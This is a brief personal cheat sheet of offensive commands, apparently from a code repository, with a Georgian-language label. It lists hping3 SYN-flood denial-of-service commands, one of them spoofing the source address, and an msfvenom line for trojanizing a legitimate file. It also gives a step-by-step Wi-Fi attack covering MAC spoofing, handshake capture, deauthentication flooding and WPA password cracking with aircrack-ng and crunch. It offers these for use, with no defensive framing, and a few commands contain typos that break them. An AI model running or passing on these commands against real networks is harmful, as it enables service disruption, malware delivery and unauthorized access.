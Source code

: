 DOS:

hping3 --flood -S -p port_n i_addr

hping3 --rand-soource --flood ...

hping3 -a 192.168.1.12 192.168.1.12 -S -folld -p 80


get google history:-- nirsoft.net


trojan:-- msfvenom -x legitimate_file -p payload -o trojanized_file


----------------

wifi hacking:


airmon-ng start wlan0

ifconfig wlan0mon down

macchanger -r wlan0mon

ifconfig wlan0mon up

#scanning
airodump-ng wlan0mon
#catch handshake
airodump-ng wlan0mon --bssid MAC_address --channel 2 --write name

#NEW TERMINAL
#attack to temper connection
aireplay-ng --deauth 2000 -a MAC_address wlan0mon

handshake პაროლის მორგება:-- 
aircrack-ng -b MAC_address -w wordlist.lst handshake-*.cap

crunch 8 8 fgiro27 | aircrack-ng -b MAC_address -w - handshake-*.cap

